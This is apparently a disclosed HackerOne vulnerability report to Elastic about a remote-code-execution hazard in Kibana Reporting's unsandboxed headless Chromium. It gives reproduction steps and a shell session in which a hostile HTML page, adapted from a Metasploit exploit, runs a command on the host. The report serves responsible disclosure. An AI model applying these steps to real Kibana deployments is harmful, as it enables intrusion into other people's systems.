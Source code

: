 # RCE hazard in reporting (via Chromium)

## Report Details
- **Report ID**: 1168765
- **URL**: https://hackerone.com/reports/1168765
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-04-19T16:26:55.228Z
- **Disclosed**: 2021-05-26T14:52:25.723Z

## Reporter
- **Username**: alexbrasetvik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: elastic

## Vulnerability Information
**Summary:** Reporting embeds a Chromium that is susceptible to RCEs

**Description:**

Reporting uses a headless Chromium to generate PNGs and PDFs. This is invoked (at least on Elastic Cloud, ECE and ECK) with `--no-sandbox` to work at all.

There are RCEs readily available for Chrome, and at least the versions shipped with 7.11 and 7.12 are susceptible to the attached example.

Attached is an adaptation of this exploit: https://github.com/rapid7/metasploit-framework/pull/15007/files#diff-42ae645fcacbd90d93296471ac57e1d734544af7fb082efd607db0a29d197ac4R53

I have not been able to devise a complete chain yet (thus the "hazard"), but anything that enables pointing reporting at attacker-controlled JS would be able to pop an RCE this way. HTML-injection or XSS (even with the CSP a HTML injection will enable a redirect) or an open redirect would enable pointing reporting at custom JS code.

## Steps To Reproduce:

  1. Host the attached HTML somewhere, in my case it's available on http://192.168.0.154:8009/alexb-says-hi.html
  1. Point the x-pack reporting-embedded Chromium at it (this step is missing to complete the chain)

Here's an example. The attached HTML file gets `uname -a > /tmp/alexb-says-hi` to be run:

```
$ docker run --rm -it docker.elastic.co/kibana/kibana:7.12.0 bash  
bash-4.4$ cd ./x-pack/plugins/reporting/chromium/headless_shell-linux_x64/
bash-4.4$ ls /tmp/
ks-script-esd4my7v  ks-script-eusq_sc5
bash-4.4$ ./headless_shell --no-sandbox http://192.168.0.154:8009/alexb-says-hi.html
[0419/161441.709455:WARNING:resource_bundle.cc(431)] locale_file_path.empty() for locale
[0419/161441.725018:WARNING:resource_bundle.cc(431)] locale_file_path.empty() for locale
[0419/161441.727174:WARNING:resource_bundle.cc(431)] locale_file_path.empty() for locale
[0419/161441.821129:WARNING:resource_bundle.cc(431)] locale_file_path.empty() for locale
^C # CTRL-C after a few seconds. Reporting would kill it after a timeout
bash-4.4$ ls /tmp/
alexb-says-hi  ks-script-esd4my7v  ks-script-eusq_sc5
bash-4.4$ cat /tmp/alexb-says-hi
Linux bd1b285e33b7 4.19.121-linuxkit #1 SMP Thu Jan 21 15:36:34 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Supporting Material/References:

  * HTML-file which when accessed via Reporting's headless Chromium triggers an RCE. (Steps to produce that file via msfconsole is embedded in the HTML file as comments)

## Impact

Kibana is an HTML-injection (even without full-blown XSS) or an open redirect away from being RCE-able via Reporting.

## Attachments
- alexb-says-hi.html
